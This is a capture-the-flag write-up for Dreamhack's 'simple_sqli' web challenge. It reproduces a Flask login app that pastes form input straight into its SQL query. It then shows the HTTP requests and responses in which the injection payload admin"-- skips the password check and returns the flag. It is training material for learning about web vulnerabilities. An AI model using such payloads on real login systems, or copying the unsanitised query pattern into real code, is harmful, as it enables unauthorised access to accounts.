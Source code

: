 # simple_sqli - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: web
- Difficulty (subjective): easy
- Points: 1
- Provided Files: app.py
- tools: Burp Suite
## Brief Description
로그인 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
## Initial Analysis
### Environment
- framework: 
    - flask
- URL End-Point:
    - /login
- Session: X / Cookie: O
### Code
``` python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```
`admin`으로 로그인하면, FLAG를 웹 페이지에 출력한다.  
## Vulnerability
### SQLI(SQL Injection)
``` python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```
웹 페이지의 form에서 `request`로 전달한 `userid`와 `userpassword`를 어떠한 검증 및 필터링 없이 그대로 `query`에 사용된다.  
## Exploit
### Strategy
sqli 취약점을 이용해, `admin`으로 로그인을 시도하여 FLAG를 획득할 것이다. `userid`를 `'admin"--'`로 입력하면 이후의 비밀번호 검증 `userpassword = "{userpassword}"`을 우회할 수 있다.  
### Exploitation Steps
``` http
POST /login HTTP/1.1
Host: host8.dreamhack.games:8269
Content-Length: 33
Cache-Control: max-age=0
Origin: http://host8.dreamhack.games:8269
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host8.dreamhack.games:8269/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ko-KR;q=0.8,ko;q=0.7
Connection: keep-alive

userid=guest"--&userpassword=good
```
``` http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.11.2
Date: Thu, 04 Sep 2025 01:35:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 53
Connection: close

<script>alert("hello guest");history.go(-1);</script>
```
`userid`를 `guest"--`로 입력한 결과 비밀번호 검증을 건너뛰고 로그인 되는 것을 확인할 수 있다.  
### PoC(Poof of Concept)
``` http
POST /login HTTP/1.1
Host: host8.dreamhack.games:8269
Content-Length: 33
Cache-Control: max-age=0
Origin: http://host8.dreamhack.games:8269
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host8.dreamhack.games:8269/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ko-KR;q=0.8,ko;q=0.7
Connection: keep-alive

userid=admin"--&userpassword=good
```
``` http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.11.2
Date: Thu, 04 Sep 2025 01:36:28 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 57
Connection: close

hello admin flag is DH{find_your_self:)}
```